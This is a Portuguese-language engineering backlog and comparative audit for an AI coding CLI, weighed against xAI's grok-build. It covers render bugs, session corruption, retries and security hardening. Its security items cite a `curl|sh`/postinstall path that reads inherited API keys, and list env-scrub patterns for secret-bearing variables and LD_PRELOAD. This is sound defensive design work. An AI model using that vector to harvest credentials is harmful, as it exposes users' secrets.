| **P1-3** | **`modelOverrides` no config global** (context/preço por modelo, UI no `/model`) | XS-S | untrusted config lido com validação zod | § 8.3-A |
| **P1-4** | **Catálogo `models.dev` para OpenCode/Requesty** com cache próprio | S | network best-effort, sem bloqueeio | § 8.3-B |
| **P1-5** | **Skills multi-root** (global + projeto + `skillsDirs`, namespaces `plugin:skill`) | M | afeta chave do prefixo congelado | § 9.3 |
| **P1-6** | ✅ **aplicado 2026-10-09** (specs/2026-10-09-provider-system/; deltas do rascunho registrados em § 8.4 — parser manual sem zod, campo `version`, knob `reasoningStyle`; mesclado com a onda 2 de provedores customizados): Original: **Multi-slot de credencial + `/provider`**: `providers{}` no config, `/connect` gerenciador condicional, troca em 2 teclas com `lastModel` por provider, migração do campo plano legado | S | isol. por provider preservado (config.js:82); `resetClient()` obrigatório | § 8.4 |
| **P1-7** | **Abort de ferramentas em voo**: `runCommand` ignora o signal do turn control (`run-command.js:43`; `exec` sem abort) e `handleMcpToolCall` não aceita signal/timeout (`agent.js:96-98`, `mcp.js:362`) — o cancelamento é gracioso só no plano do loop | M | contrato dos handlers muda (signal obrigatório) | § 15, § 16 |
| **P2-7** | Marcar **janela de contexto default/estimada** no status bar e `/cost` (o `~` de tokens estimados já existe, `status-bar.js:20-31` — falta sinalizar o `limit` chutado) | XS | — | § 8.3-C |
| **P2-8** | Ajuste da divergência `maxLoopIterations` 40 vs 90 (doc ou código) — ✅ **aplicado 2026-10-08**: código unificado em `DEFAULT_MAX_LOOP_ITERATIONS` (90), `|| 40` removido, specs/2026-10-08-maxloop-divergence/ | XS | Regra 0 | § 4 |
| **P2-9** | Teste de regressão do render: fixture de stdout fake com `rows` pequeno | XS | — | § 7.3 |
| **P2-10** | Refresh do README: diagrama de estrutura (`README.md:275-300`) omite `src/web/`, `src/lifecycle/`, `src/commands/` e `src/recovery.js`; "STDIO transport" (`README.md:30`) vs SSE/HTTP já implementados (`mcp.js:5-7`) — ✅ **aplicado 2026-10-08**: specs/2026-10-08-readme-refresh/ (diagrama completo, stdio/SSE/HTTP, namespace `<server>__<tool>`, claim "40+ skills" substituído pela descrição honesta do mecanismo, tabela `/websearch`·`/tavily`·`/firecrawl`·`/skills`, exemplo de config.json conforme `saveUserConfig()`) | XS | Regra 0 | § 9.1 |
| **P2-11** | Alinhar `architecture.md` ao código: sessões vivem em `.emile/history/<id>.json`, não `.emile/sessions/<id>/` (tabela "Runtime directories"); namespace MCP real é `<server>__<tool>`, não `mcp__<server>__<tool>` (§ 2); comentário de `recovery.js` descreve estado `pending` inexistente | XS | Regra 0 | § 10, § 16, § 18 |

### 21.1 Onda grok-build (análise de 2026-10-09 — § 22)

Itens promovidos da comparação com o CLI de produção da xAI. Evidência completa em § 22; os briefs de dispatch estão em `specs/2026-10-08-deep-dive-backlog/briefs/`.

> **Nota 2026-10-09:** a frente de **provedores customizados** (contexto da onda 2, § 21.1 do plano original de credenciais) foi entregue **junto com o P1-6** no mesmo dispatch — config v2 com slots por provider + `/provider` + três formatos de transporte (`anthropic-messages`, `chat-completions`, `responses`) + knob `reasoningStyle`. Ver § 8.4 (status aplicado) e `specs/2026-10-09-provider-system/`.

| # | Item | Esforço | Risco | Brief | Ref |
|---|---|---|---|---|---|
| **P0-4** | ✅ **aplicado 2026-10-09** (`specs/2026-10-09-paste-burst-redraw/`): coalescing de rajada de paste + clamp do cursor-up ao viewport + supressão de render dentro de bracketed paste; 7 casos novos no harness ANSI. Original: **Bug ativo: paste grande duplica no input** — `render()` do prompt persistente redesenha a cada caractere/linha do paste com cursor-up sem clamp (`prompt-input-persistent.js:300-307, 353, 437-443, 474-481, 548-554`); portar coalescing de rajada de paste + clamp `ESC[nA ≤ rows-1` + modo sem-TTY (grok `event_loop.rs:3610-3710`) | S | UI-only | `p0-4-paste-burst-redraw.md` | § 22.2 |
| **P0-6** | **Bug ativo: assistant `content:null` sem `tool_calls` envenena a sessão permanentemente** — stream que morre/vazio faz push de assistant inválido (`agent.js:598-601, 664`); a projeção de persistência apaga `reasoning_content` (`history.js:32`) deixando só `{role, content:null}`; todo request futuro 400-a ("messages[i] needs content or tool_calls") e o loop "Prossiga" nunca termina. Guard na geração + sanitize no save + **sanitize no load** (auto-recupera sessões corrompidas) + fix do `streamErrored` morto (`agent.js:445` — dupla notificação error+empty) | S | dados (invariante § 22.3) | `p0-6-assistant-null-poison.md` | § 10, § 22.3 |
| **P0-5** | **Env scrub em subprocessos** — `exec()` herda TODO o `process.env` (`run-command.js:94`): postinstall/`curl\|sh` lê `OPENROUTER_API_KEY` etc.; grok remove `*KEY* *SECRET* *TOKEN* *PASSWORD* *CREDENTIAL* LD_PRELOAD/DYLD_* por default (`command/policy.rs:138-156`) | XS | segurança | `p0-5-subprocess-env-scrub.md` | § 22.3 |
| **P1-8** | **Stationarity guard no loop** — cap de 90 iterações permite ~90 chamadas idênticas; assinatura canônica do step + nudge em 4 + stop em 8 (grok `turn.rs:3946-4025`) | XS | loop | `p1-8-stationarity-guard.md` | § 22.3 |
| **P1-9** | **Truncation honesta de output** — `truncateMiddle` (primeira+última metade, footer com total), spool do output completo para `.emile/tmp/` com path no resultado, caps em grep/find/listDir (grok `util/truncate.rs:249-276`; `bash/mod.rs:5358`) | XS | tools | `p1-9-output-truncation-caps.md` | § 22.3 |
| **P1-10** | **Redação de segredos no chokepoint de tool results** — stdout de comando entra cru no contexto e no JSON da sessão; portar passes do `secrets/sanitizer.rs` reaproveitando `memory/privacy.js` (já tem AKIA/JWT/PEM/sk-/gh_) | S | segurança | `p1-10-tool-result-redaction.md` | § 22.3 |
| **P1-11** | **Sanitize/repair pós-compressão** — tool result órfão sobrevivente envenena a sessão permanentemente (400 em todo request futuro); `repairToolPairing` + resultado sintético (grok `compaction_utils.rs:1002-1100`); inclui passar `contextLimit` na compressão forçada (`agent.js:403-408`) e destravar gate `length <= 8` (`compression.js:66`) | S | dados | `p1-11-compression-sanitize.md` | § 22.3 |
| **P1-12** | **Retry hardening** — jitter ±20%, orçamento de 429 separado (superfície ao usuário após 2 tentativas), **idle-timeout de stream** (hoje um stream que para de emitir sem fechar pendura o turno para sempre — nenhum chunk ⇒ nenhum poll de cancelamento) (grok `retry.rs`, `IdleTimeout`) | S | api | `p1-12-retry-hardening.md` | § 22.3 |
| **P2-12** | **saveSession atômico** — `writeFileSync` de arquivo inteiro sem tmp+rename/fsync (`history.js:111`); padrão já existe no repo (`plans.js:142`, `memory/io.js`); pareia com P0-3 | XS | dados | — (gerar ao dispatchar) | § 22.3 |
| **P2-13** | **Steering mid-turn** — mensagem digitada durante o turno entra como user sintático no próximo safe point com envelope "The user sent a message while you were working" (grok `interjection/format.rs:4-24`); hoje a fila só drena entre turnos (`cli.js:354-465`) | M | loop+UX | — | § 22.3 |
| **P2-14** | **`cache_control` breakpoints explícitos no OpenRouter** — pin no último bloco system + tip da mensagem mais nova, pulando blocos de reasoning, orçamento de 4 marcadores (grok `messages.rs:36-73`) | S | api | — | § 22.3 |
| **P2-15** | **Permission rules deny>ask>allow** — upgrade do whitelist binário: regras por tool com glob, decomposição conjuntiva de `a && b`, grants once/session/always persistidos 0600, guarda anti-catch-all (grok `permission-rules/policy.rs`) | M | segurança | — | § 22.3 |
| **P2-16** | **Skill tool lazy-load** — listagem budgeted em system-reminder + corpo carregado sob demanda; descopla skills do prefixo congelado e barateia P1-5 (grok `skill/listing.rs`, `agent.rs:1741-1814`) | M | prompt | — | § 22.3 |
| **P2-17** | **Hooks de ciclo de vida** — `PreToolUse/PostToolUse/Stop` com decisões estruturadas (`Proceed\|Block\|Modify\|Retry`); o gate `Stop` ("rode os testes antes de finalizar") é o item de maior alavancagem (grok `hooks/event.rs:78-218`) | L | extensibilidade | — | § 22.3 |

Cada item acima, ao ser implementado, nasce como spec em `specs/YYYY-MM-DD-nome/` (Regra 3, SDD), fecha com CHANGELOG + registro em `features/` (Regra 7), e as decisões estruturais (multi-root de skills, override de modelo como superfície de config) pedem ADR próprio (Regra 2). A linguagem deste documento é pt-BR por decisão de conveniência para leitura do dono do projeto; os documentos canônicos seguem em inglês conforme [ADR-0001](adr/0001-tech-stack-choice.md) § Derived policies 4 — se a intenção for publicar a doc junto do repositório, converter antes do commit.

## 22. Análise comparativa — grok-build (xAI), 2026-10-09

> **Fonte:** varredura completa de `C:\Users\mc33p\Documents\GitHub\grok-build` (monorepo Rust, ~90 crates sob `crates/codegen` + `crates/common`; o CLI de produção da xAI) contra o código atual do emile-cli, executada em 2026-10-09 por cinco audições paralelas (loop+prompt, skills/plugins/hooks, render+paste, compaction+sessão, segurança+config). Caminhos `grok:` são relativos a `crates/`; caminhos do emile refletem o working tree de 2026-10-09. Reivindicações do relatório bruto que não se confirmaram no código foram **descartadas** (ver 22.6) — só entrou no backlog o que foi verificado linha a linha.

### 22.1 As três lições estruturais

1. **Duplicação é impossível por construção lá; é possível por construção aqui.** O grok renderiza por *diff de buffers* (ratatui, `xai-ratatui-inline/src/terminal.rs:497-541`) ou, no modo append-to-scrollback, por uma **fronteira de commit print-once** (`xai-grok-pager-minimal/src/commit.rs:145-168` — "Print-once can never re-emit a block marked committed"; entrada não-commitada é re-tentada, entrada commitada nunca é re-emitida). O emile desenha por *erase-and-reprint* com `ESC[nA` cuja distância não tem clamp pelas linhas do terminal — a raiz comum do bug de thinking (§ 7.2) e do bug de paste (22.2). **Invariante a adotar: nenhum `ESC[nA` maior que `rows-1`; sem TTY, nenhum cursor-up; conteúdo que rolou para o scrollback nunca é apagado.**
2. **Conteúdo volátil nunca entra no system prompt.** O prompt-base do grok é 100% estático; AGENTS.md, memória, skills e interjeções entram como blocos `user` etiquetados em *safe points* (`grok: xai-grok-agent/prompt/context.rs:211-216`; `xai-interjection-core/format.rs:4-24`; bloco de memória com globs `[applies to: ...]` `agent.rs:1741-1814`). O emile já congela o prefixo (§ 14) — a lição portável é a *regra*: campo que varia por request (data, skills do turno, plano aprovado) nunca entra no prefixo; entra em projeção transitória (padrão que o emile já tem para memória, `agent.js:116-124`).
3. **Autorização, contenção e vazamento são três camadas distintas.** O grok separa: regras de permissão declarativas deny>ask>allow (`xai-grok-permission-rules/policy.rs:283-336`), contenção OS-level com floor protegido + env scrub (`command/policy.rs:138-156`, `command/protected.rs`), e redação em toda fronteira de saída (`xai-grok-secrets/sanitizer.rs:5-108`). O emile tem a primeira parcialmente (whitelist binário + `resolveSafePath`) e a terceira quase ausente (tool results entram crus no contexto e na sessão) — e o buraco da contenção (22.3, P0-5) é de graça de fechar.

### 22.2 O bug de paste grande — causa raiz confirmada

> **✅ FIX APLICADO 2026-10-09** (P0-4, `specs/2026-10-09-paste-burst-redraw/`): os três mecanismos portáveis do grok foram implementados em `prompt-input-persistent.js` — (1) render suprimido durante bracketed paste (um único `render()` no `paste-end`), (2) coalescing de rajada para terminais sem bracketed-paste (≥3 teclas de texto em ≤2 ms = um paste; flush por timer de 10 ms ou pela primeira tecla não-texto), (3) clamp de todo `ESC[nA` a `min(n, (stdout.rows || 24) - 1)` e **nenhum** cursor-up sem TTY. O chip `[Pasted: N lines]` permanece no backlog (P2). Cobertura: 7 casos novos em `test/prompt-input-render.test.js`.

No `prompt-input-persistent.js`, durante bracketed paste (`:437-443`), **cada caractere** cai no ramo de texto (`:548-553`) que termina em `render()` (`:554`), e cada `Enter` colado insere uma linha e chama `render()` (`:474-481`). Um paste de 2 KB são ~2 000 redesenhos do bloco inteiro; cada redesenho apaga subindo `lastTopOffset` linhas (`:300-307, 353`) — um `ESC[nA` **sem clamp**. Quando o bloco excede `stdout.rows`, o cursor-up trava no topo do viewport, os frames antigos rolam para o scrollback sem poder ser apagados, e cada linha nova redesenha o bloco inteiro por baixo → o texto colado aparece N vezes. Mesma família do thinking (§ 7.2), outro arquivo. O grok neutraliza com três mecanismos portáveis sem reescrever nada: **coalescer rajada** (≥3 keypresses pasteáveis viram um único evento — `event_loop.rs:3610-3710`; no emile: suprimir `render()` enquanto `isPasting`, renderizar uma vez no `paste-end`), **clamp do cursor-up** e o **chip `[Pasted: N lines]`** (≥4 linhas ou >10 KB viram placeholder de uma linha, texto real expandido só no submit — `prompt_widget/mod.rs:2286-2344`; no emile, candidato P2 depois do P0-4).

### 22.3 Comparação por área (só o que foi verificado)

| Área | grok-build | emile-cli hoje | Promover |
|---|---|---|---|
| **Loop / anti-stuck** | assinatura canônica do step (chamadas ordenadas + JSON de args com chaves ordenadas — não burlável reordenando), nudge em 4–8, stop em 8–12, polling noop termina silencioso em 4 (`turn.rs:3946-4025`) | cap cego de 90 iterações (`agent.js:313, 333`), tools sequenciais (`:676`) | **P1-8** (stationarity); concorrência de tools fica registrada sem brief |
| **Steering mid-turn** | buffer FIFO com envelope "The user sent a message while you were working", drenado no safe point pós-tool-batch (`interjection/format.rs:4-24`, `turn.rs:1385-1424`) | fila só drena **entre** turnos (`cli.js:354-465`) — sem cap de tamanho (verificado: `push` sem guarda) | **P2-13** |
| **Prompt caching** | 3 breakpoints `cache_control: ephemeral` pinados (nunca 5 — "five is rejected outright"), regra de pular blocos Thinking ao marcar (`messages.rs:36-73`) | prefixo congelado por chave `(plansMode, relevantSkills)` (`agent.js:225-230`); breakpoint só via `requesty.auto_cache` (`client.js:290`) | **P2-14** |
| **Ferramentas: output** | `truncate_front_and_back` (erro de build está no FIM do log), footer com total de bytes, spool do output completo + path no resultado (`util/truncate.rs:249-276`, `bash/mod.rs:5358`) | `runCommand` corta a cabeça em 50k e manda o modelo re-rodar (`run-command.js:113-118`); `listDir` sem cap; `grepSearch`/`findFiles` têm cap de 50 itens (`grep-search.js:26`, `find-files.js:21`) | **P1-9** |
| **Segredos** | sanitizer com 10 passes ordenados em toda fronteira de saída (`sanitizer.rs:5-108`); tool output não é blanket-sanitizado porque a contenção é OS-level | tool result vai cru para contexto + JSON da sessão; arsenal de regexes já existe em `memory/privacy.js:5-8` (AKIA, JWT, PEM, sk-/gh_) mas só gating memória | **P1-10** (o emile não tem sandbox — redação no chokepoint É o substituto) |
| **Env de subprocesso** | scrub default-on (`policy.rs:138-156`) + allowlist PATH/HOME | `exec()` herda todo o env (`run-command.js:94`) — postinstall lê as chaves de API | **P0-5** |
| **Permissões** | regras `Tool(glob)` deny>ask>allow, decomposição conjuntiva de `a && b`, fail-closed pra Ask, grants once/session/always com guarda anti-catch-all (`policy.rs:139-212, 877-905`) | whitelist de 6 prefixos + confirmação binária por chamada (`security.js:6-32`) | **P2-15** |
| **Compaction** | sempre em boundary + **sanitize/validate/repair depois de toda reescrita** (órfão removido, resultado sintético para `tool_calls` sem par — `compaction_utils.rs:1002-1100`); gate `length<=8` não existe — poda de tool results velhos é a primeira linha de defesa | split por heurística de 2 loops (`compression.js:97-104`), **zero validadores**; órfão sobrevivente 400-a todo request futuro e envenena a sessão (`agent.js:429` → persiste); gate `messages.length <= 8` (`compression.js:66`) pula compressão mesmo com tool results gigantes; compressão forçada não recebe `contextLimit` (`agent.js:403-408`); summary degenerado (string curta) é aceito sem guarda (`:110-117`) | **P1-11** |
| **Sessão** | SQLite journal + PID-alive prune + fsync-before-rename (`active-sessions/lib.rs:45-47`, `persistence.rs:11-14`) | `writeFileSync` de arquivo inteiro, sem tmp+rename (`history.js:111`); sem lock/ownership; scanner de boot filtra `'pending'` que ninguém escreve (`recovery.js:95`) | **P2-12** (atomicidade; o resto já é P0-3) |
| **Resiliência de stream** | jitter ±20%, 429 com orçamento separado (superfície após ~2 tentativas), **idle-timeout** de stream, client-rebuild no 1º retry transitório (`retry.rs:5, 51-71, 130-156`) | 3 retries lineares sem jitter; stream que para de emitir sem fechar **pendura o turno para sempre** (nenhum chunk ⇒ nenhum poll de cancelamento) | **P1-12** |
| **Skills/extensibilidade** | skill = tool lazy com listagem budgeted em system-reminder + `allowed-tools`/`paths`/`user-invocable` no frontmatter (`skill/listing.rs`, `agent.rs:1741-1814`); plugins com manifest + namespace `<plugin>:<skill>`; hooks `PreToolUse/PostToolUse/Stop` com decisões estruturadas (`hooks/event.rs:78-218`) | skills entram no prefixo congelado por corpo (§ 9); sem hooks; sem plugins | **P2-16**, **P2-17** |

### 22.4 O que o emile já faz tão bem quanto (não mexer)

- Retry só antes do primeiro chunk (`client.js:202-240`) — o grok tem a mesma disciplina.
- Checkpoint `tool_pending` por ferramenta + placeholders de cancelamento por id (`agent.js:670-727`) — mesma invariante do `ensure_conversation_integrity` do grok.
- Prefixo congelado por chave é alternativa defensável ao pin de breakpoints; o design de projeção transitória de memória (`agent.js:116-124`) já é o padrão do grok implementado.
- Isolamento de credenciais por provider sem fallback cruzado (`config.js:84-93`) e catálogo 3-layer (`models.js`) são superiores ao modelo de slots fixos do grok para o escopo do emile.

### 22.5 Throughput (percepção do usuário: 80–100 tk/s vs ~50 no opencode)

A audição não mediu throughput; os mecanismos do lado do harness que afetam velocidade são P2-14 (cache pinning), o pre-warm de conexão do sampler (`xai-grok-sampler/src/prewarm.rs`), e o prefixo congelado que o emile já tem. O restante da diferença é gateway-side (rota do OpenCode API vs Requesty). Registrado sem item de backlog.

### 22.6 Rejeitados na verificação (não viraram backlog)

- *"Aprovação de plano re-injeta o corpo inteiro"* — falso no código atual: `agent.js:346` injeta instrução curta ("Plan approved. Please write the implementation_plan.md..."). Descartado.
- *"Fila derruba a mensagem mais nova em >3"* — falso: `cli.js:364` faz `push` sem guarda; o cap de 400 chars é só do preview no status (`turn-keys.js:27`). Descartado como bug; a ausência de cap na fila fica registrada em 22.3.
- *"Cursor-up do thinking sem guardas"* — verdadeiro, mas **já é P0-1** com brief; não duplicado aqui.
- *Hashline editing, worktree CoW, codebase-graph ctags, egress proxy* — desproporcionais ao escopo do emile (L/XL); ficam como referência de design, sem item.
